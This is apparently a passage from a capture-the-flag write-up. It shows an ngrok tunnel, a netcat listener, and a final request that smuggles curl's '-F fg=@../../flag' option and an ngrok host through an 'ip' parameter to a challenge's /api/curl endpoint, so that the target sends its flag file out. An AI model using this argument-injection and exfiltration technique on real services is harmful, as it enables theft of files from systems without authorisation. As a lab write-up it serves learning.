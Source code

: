 ```

```

Yeah. We can force the application to send any file it has access to, via the response. Let's try it.

## Setup listener

In this challenge we are not given the VPN, all boxes are exposed to the global network. So we have to make a tunnel to our localhost.

I'm using `ngrok` in one terminal:

```
$ /opt/ngrok http 4444

ngrok by @inconshreveable                                                                              (Ctrl+C to quit)
                                                                                                                       
Session Status                online                                                                                   
Account                       XXXXX (Plan: Free)                                                                    
Version                       2.3.39                                                                                   
Region                        United States (us)                                                                       
Web Interface                 http://127.0.0.1:4040                                                                    
Forwarding                    http://1f106a9e85a2.ngrok.io -> http://localhost:4444                                    
Forwarding                    https://1f106a9e85a2.ngrok.io -> http://localhost:4444                                   
                                                                                                                       
Connections                   ttl     opn     rt1     rt5     p50     p90                                              
                              0       0       0.00    0.00    0.00    0.00             
```

In the second I'm using `netcat`:

```
$ nc -lvnp 4444

listening on [any] 4444 ...

```

`-l` for listen, `-v` for verbose, `-n` for numeric IPs, and `-p` to specify port.

And to retrieve the flag (from downloadable we know that flag is located 2 levels above the working directory of the script):

```
url -H "application/x-www-form-urlencoded" -d 'ip=-F fg=@../../flag 1f106a9e85a2.ngrok.io' -v 138.68.178.56:32236/api/curl
```
